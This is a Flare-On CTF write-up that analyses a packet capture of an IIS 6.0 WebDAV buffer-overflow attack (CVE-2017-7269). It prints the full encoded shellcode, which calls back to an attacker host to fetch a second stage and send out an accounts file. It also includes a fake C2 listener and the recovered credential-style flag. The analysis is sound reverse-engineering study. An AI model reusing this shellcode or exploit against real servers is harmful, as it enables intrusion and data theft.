# 7 - Re_Crowd

Message:

```
Hello,

Here at Reynholm Industries we pride ourselves on everything.
It's not easy to admit, but recently one of our most valuable servers was breached. 
We don't believe in host monitoring so all we have is a network packet capture.
We need you to investigate and determine what data was extracted from the server, if any.

Thank you
```

This challenge is a very good one, it will give to us a [pcap](https://en.wikipedia.org/wiki/Pcap) file of an attack, our job here is to discover if there was data exfiltration.


# Recon


## Context
First, we can read this pcap file with [Wireshark](https://www.wireshark.org/), there you can see that the traffic starts with an HTTP request in a new Web forum of Reynholm Industries, in their conversation, ***jen*** said that she kept the accounts files at ***c:\accounts.txt***, and that her need help to create their accounts in this new application.




## Exploitation


Later on, we notice an request that look very strange, and after that packet the server connect back at por ***4444*** of the possible attacker, load something and then send some data to port ***1337*** of 192.168.68.21:




This exploit is abusing of a Buffer overflow vulnerability in Windows server 2003 running IIS 6.0, I know that because it was a famous exploit that explore WebDav protocol,[CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-7269), I also found the first published [exploit](https://www.exploit-db.com/exploits/41738) from Zhiniang Peng & Chen Wu.


If you take a look at the exploit, it's a buffer overflow + ROP chain exploitation, and the structure it's very similar of this attack.




Of course this is not the same file used here, as this exploit just pop ***calc.exe***, and the attacker one looks to do much more (And notice that the first exploit don't have the ***>*** at the end of the shellcode).


This exploit, is actually the Metasploit module of it, take a look at ***exploits/windows/iis/iis_webdav_scstoragepathfromurl*** exploit function:





So here is how this is attacking the server (I will not dig in details of this exploit, because I don't understand 100% of the exploit itself and this is a Write-up, maybe in other post :D ):


* It first overflow the url path
* After the overflow it make 3 [ROP chains](https://ropemporium.com/) and load our payload
* All the bytes are encoded in UTF-8 (I will back soon in this part)
* The encoded payload is executed


# Shellcode analysis

Ok, this is all the attack stages in order:



So, after the shellcode succesfully execute in the server, it will download the stage2 from port 4444 and alloacate and run the malicious code in memory then it will send something to port 1337.


In order to get the data that was exfiltrated, we must:

* Decode this shellcode
* Reverse engineering their code
* Understand how data is being encoded/encrypted
* Get the exfiltrated data, aka flag


So, let's go :)

## Alphanumeric shellcodes


You can cleary see that this shellcode is in plain text, if you never face that before you maybe think that this en encoded using base64/32, but it's not.


This is called Alphanumeric shellcode, an shellcode that was converted to a sequence of bytes that can be representated as chars, and this new code contain in itself the decompression routine, in order words, this shellcode is able to decode itself in memory and reveal the real code. I strongly recommend the following lectures, [corlean.be](https://www.corelan.be/index.php/2009/11/06/exploit-writing-tutorial-part-7-unicode-from-0x00410041-to-calc/) and [fuzzy security](https://www.fuzzysecurity.com/tutorials/expDev/5.html).


This encoder is detect by it's pattern and because is the default encoder of this payload, we can check that in the real exploit and in the metasploit module:



## A note about BufferRegister

In order to this kind of shellcode work, it must need where he is in memory, because it will use his absolute address to start the decompression routine, this address must be supplied by a register, in metasploit the default register that will hold the shellcode address is ***ESI***, for this exploit, but if you generate a [alphanumeric shellcode](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/) it will by default create a prefix of 8 bytes, with non alpha bytes, that will set the right address to the register, if you use the option ***BufferRegister***, it will remove this pre-instruction and will be the job of the exploit writer to find this address and load in the register that was chosen.

## A note about unicode shellcode

This exploit is using an mixed unicode shellcode, it's behaviour is the same as the alphanum, the only difference here is that this kind of encoding is used because windows use unicode as default charset (that's why each instruction is converted to unicode-utf8 in the exploit), when windows load this shellcode, it will convert to unicode and the exploit will works normally.


... A lot, uh ?

## Fixing the shellcode encoding

As I said before, this shellcode is expecting that windows "fix" to unicode, but I will manually run this exploit using [scdbg](http://sandsprite.com/blogs/index.php?uid=7&pid=152) and [x64dbg](http://sandsprite.com/blogs/index.php?uid=7&pid=152), so I need this exploit in the correct encoding format.


```python
shellcode="VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBYlHharm0ipIpS0u9iUMaY0qTtKB0NPRkqBLLBkPRMDbksBlhlOwGMzmVNQkOTlmlQQqllBLlMPGQVoZmjaFgXbIbr2NwRk1BzpDKmzOLtKPLjqqhJCa8za8QPQtKaImPIqgctKMyZxk3MjniRkMddKM16vnQYoVLfaXOjm9quwP8Wp0ul6LCqm9hOKamNDCEGtnxBkOhMTKQVs2FtKLLPKdKNxKlYqZ3tKLDDKYqXPdIq4nDnDokqKS1pY1Jb1yoK0Oo1OQJbkZrHkrmaMbHLsLrYpkPBHRWrSlraO1DS8nlbWmVkW9oHUtxV0M1IpypKyi4Ntb0bHNIu00kypioIENpNpPP201020a0npS8xjLOGogpIoweF7PjkUS8Upw814n5PhLBipjqqLriXfqZlPr6b7ph3iteadqQKOweCUEpd4JlYopN9xbUHl0hzPWEVBR6yofu0j9pQZkTqFR7oxKRyIfhoo9oHUDKp63QZVpKqH0OnrbmlN2JmpoxM0N0ypKP0QRJipphpX6D0Sk5ioGeBmDX9pkQ9pM0r3R6pPBJKP0Vb3B738KRxYFh1OIoHU9qUsNIUv1ehnQKqIomr5Og4IYOgxLPkPM0yp0kS9RLplaUT22V2UBLD4RUqbs5LqMbOC1Np1gPdjkNUpBU9k1q8oypm19pM0NQyK9rmL9wsYersPK2LOjbklmF4JztkWDFjtmObhMDIwyn90SE7xMa7kKN7PYrmLywcZN4IwSVZtMOqxlTLGIrn4ko1zKdn7P0B5IppEmyBUjEaOUsAA"
fixed_shellcode = b''

for code in shellcode:
    fixed_shellcode += code.encode()
    fixed_shellcode += b'\x00'

with open("shellcode_fixed.bin", "wb") as shellcode_fd:
    shellcode_fd.write(fixed_shellcode)

print("[+] Shellcode fixed [+]")
```


After that, we will have this:



Rather then:




## Running shellcode in scdbg


I will use scdbg for this task, we know that the exploit is already fixed, we can use scdbg to emulate this exploit instructions.





Check that I'm using the option ***-esi base*** because the shellcode expect that this register hold his address, then we see that the shellcode is dynamic loading the library [ws2_32](https://docs.microsoft.com/en-us/windows/win32/api/winsock/), aka winsock, (Using [LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)), this library hold all the socket code, functions like ***connect*** and ***recv***, later on it will connect as expect to port 4444, receive some data, and use [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) to allocate a portion of the memory that will be used for the stage2.


At this point I had an idea, can I write a fake C2 that emulate what the attacker does ? And was exactly what I did, I create a simple C2 server that will send the same packets when the shellcode try the reach, and receive the same data, this way I can see with my own eyes what really happened in the server.


Fake C2 code

```python
import socket
import os
import sys

class C2:
	def __init__(self, ip, port, sender = True):
		self.sender = sender
		self.ip = ip
		self.port = port
		self.s = socket.socket()
		self.s.bind((self.ip, self.port))
		self.bytes_to_send = b''
	
	def set_host_data(self, data_path):
		if not os.path.exists(data_path):
			raise Exception("Unable to find file {}".format(data_path))
		
		print("Loading {}".format(data_path))
		with open(data_path, "rb") as data_fd:
			self.bytes_to_send = data_fd.read()
		
		print("Data loaded, ready to serve!");


	def listen(self):
		self.s.listen(1)
		print("Wainting connections at {}:{}...".format(self.ip, self.port))

		while True:
			conn, addr = self.s.accept()
			if self.sender:
				print("Received connection, sending bytes...")
				conn.send(self.bytes_to_send)
				print("Bytes sent!, closing...")
			else:
				print("Received connection, waiting data...")
				data = conn.recv(4096)
				save_file = "dump.bin"
				print("Received!, saving to {}".format(save_file))
				with open(save_file, "wb") as save:
					save.write(data)

				print("Saved")


			conn.close()


if __name__ == '__main__':
	port   = int(sys.argv[1])
	file_to_server = sys.argv[2]
	sender = sys.argv[3]
	
	c2 = C2("0.0.0.0", port, sender == "sender")
	c2.set_host_data(file_to_server)

	c2.listen()
```

I also created an file with a random content at ***C:\accounts.txt***, changed my local ip address to 192.168.68.21 and I ran again.




Note that I added two more options in scdbg, -i for interactive mode, this will make some function access real resources, such ips, and -u to unlimited steps... but scdbg crashed because it don't understand some opcodes,maybe some limitations of the libemu, the good part is that our fake c2 really worked, I was able to reply back the malicious packet and the shellcode really allocate and ran that, but this is not good enough, I need go deeper.


## Debugging shellcode in x64dbg

I will use x64dbg for debug this shellcode, the steps to acomplish that, is:

* Get a real process 
* Allocate memory 
* Copy our shellcode inside the process
* Change EIP and fix ESI for the shellcode





Ok, now it's debugging time, I will just point the key parts of this shellcode/stage2 because a lot happened here.

### The first jump

After all the decode routine ends, the first ***jmp*** will be revealed




Notice that the ***eax*** register actually holds the LoadLibrary address, and on the top of our stack we have the ***ws2_32*** library, you need follow this jump in to not lose the control of the shellcode, until you reach a safe point that you can put a useful breakpoint.


After a while, I notice a lot of call functions to ebp register, so I just put some breaking points in a hope to find something useful in the call




Following this calls, I found the Readfile function, after that I notice that my data was sent to a strange function that looks like a encryption routine, take a look





Notice that ESP holds my file data and Yes, I just fill with a bunch of ***A***, later on I realized that was a bad idea, In the next call it will load all the alphabet characters and starts it encoding/encryption routine of my data.





You can see that the key is loaded and my data is in the stack with a bunch of ***0x41***, the A's before, It was a really bad idea fill with a unique byte... But, it really doesn't matter, I already found the encryption loop, so I just need to analyze that, try to understand and write a decoder for th... no, please, just no. 


Something that I learned in this CTF was that in almost every challenge we can make the code tell you the Flag, I took a deep breath and remembered the challenge #6, where the encoding routine with the same data makes the data to be encoded untouchable.


## The simple idea that give me the flag

So I don't know if this was an act of miracle, or from where come this insight, but my idea was, what if I replace my ***C:\accounts.txt*** with the encoded/exfiltrated data ? 


I literally did that, I dumped out the 1337 data from pcap and replace my ***C:\accounts***, I literally just ran the shellcode and wait my fake C2 dump the file out.




After ran the shellcode (x64dbg clean the screen after finish), my C2 that was listening on port ***1337***, dumped something, and guess what ?

```
roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat <---
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
richmond:Inventor-Hut-Autumn-Tray-6:bird
denholm:123:dog
```


Just wow, I spend 3 days at that and was a very amazing experience, thanks again flare.
